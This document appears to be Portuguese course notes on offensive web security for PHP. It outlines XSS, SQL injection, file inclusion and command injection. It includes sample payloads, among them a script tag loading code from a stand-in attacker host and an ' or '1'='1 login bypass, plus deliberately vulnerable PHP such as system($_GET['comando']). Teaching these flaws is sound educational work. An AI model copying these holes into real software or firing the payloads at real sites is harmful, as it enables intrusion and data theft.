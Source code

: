 # Segurança ofensiva

### Introdução
- Blackhats x Whitehats
- Mercado de segurança da informação

### [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- Refletido:
```php
# http://localhost/xss.php?mensagem=<script>alert('XSS');</script>
# http://localhost/xss.php?mensagem=<marquee><h1>XSS</h1></marquee>
# http://localhost/xss.php?mensagem=<script src=http://atacante.segphp4linux.com.br/domal.js></script>

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- Residente:
```php
# http://localhost/xss_residente.php?mensagem=<script>alert('XSS');</script>

session_start();

if (isset($_GET['variavel'])) {
    $_SESSION['variavel'] = $_GET['variavel'];
}

echo isset($_SESSION['variavel']) ? $_GET['variavel'] : "" ;
```

- XSHM - Cross-Site History Manipulation
```php
<?php
/*
http://vitima.segphp4linux/xss_xshm.php?mensagem=<script>alert(history.length);</script>
*/

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- [CSRF - Cross-Site Request Forgery](https://pt.wikipedia.org/wiki/Cross-site_request_forgery)

- [Click Jacking](http://sectheory.com/clickjacking.htm) - [exemplo](http://koto.github.io/blog-kotowicz-net-examples/cursorjacking/)

### [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [Comum](scripts/sqli/sqlinjection.php)
```php
# login=' or '1'='1
# senha=' or '1'='1

if ($_POST) {
    $query = "SELECT * FROM usuarios WHERE user='$user' AND pass='$pass' ";

    echo $query;
}
```
- Union inband
- Batched
- Blind
- Error Based

### [LDAP Injection](https://www.owasp.org/index.php/LDAP_Injection_Prevention_Cheat_Sheet)

### [Insecure Cookie Handling](http://kb.enprobe.io/vulnerabilities/insecure-cookies.html)
-- Exemplo
```php
if ($_GET['login'] == 'naousehardcode' && $_GET['senha'] == 'naousehardcode') {
    setcookie('autenticado', 1);
}

if (!$_COOKIE['autenticado'] == 1) {
    die('Usuario nao autenticado!');
}
```

- [RFI/LFI - Remote/Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
-- Exemplo
```php
require($_GET['modulo']);
```

- [Command Injection](https://www.owasp.org/index.php/Command_Injection)
-- Exemplo
```php
system($_GET['comando']);
```

- [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- [Web Crawlers](https://pt.wikipedia.org/wiki/Rastreador_web)
-- Exemplo
```php
# Exemplo: https://stackoverflow.com/a/2313146

function crawl_page($url, $depth = 5) {
    if($depth > 0) {
        $html = file_get_contents($url);

        preg_match_all('~<a.*?href="(.*?)".*?>~', $html, $matches);

        foreach($matches[1] as $newurl) {
            crawl_page($newurl, $depth - 1);
        }

        file_put_contents('results.txt', $newurl."\n\n".$html."\n\n", FILE_APPEND);
    }
}

crawl_page('http://www.domain.com/index.php', 5);
```

- [Session fixation/hijacking](https://www.owasp.org/index.php/Session_fixation)

### [Brute force](https://pt.wikipedia.org/wiki/Ataque_de_for%C3%A7a_bruta)

### [Man In The Middle](https://www.owasp.org/index.php/Man-in-the-middle_attack)

### [DDOS](https://pt.wikipedia.org/wiki/Ataque_de_nega%C3%A7%C3%A3o_de_servi%C3%A7o)

### Algumas Ferramentas
- [Kali Linux](https://www.kali.org/)
- [Metasploint](https://www.metasploit.com/)
- [nmap](https://nmap.org/)
- [tcpdump](https://www.tcpdump.org/tcpdump_man.html)
- [Wireshark](https://www.wireshark.org/)
- [Ettercap](http://www.ettercap-project.org/ettercap/)
- [SQLMap](http://sqlmap.org/)
- [PHP Crawler](http://phpcrawl.cuab.de/)
- [John the Ripper](http://www.openwall.com/john/)
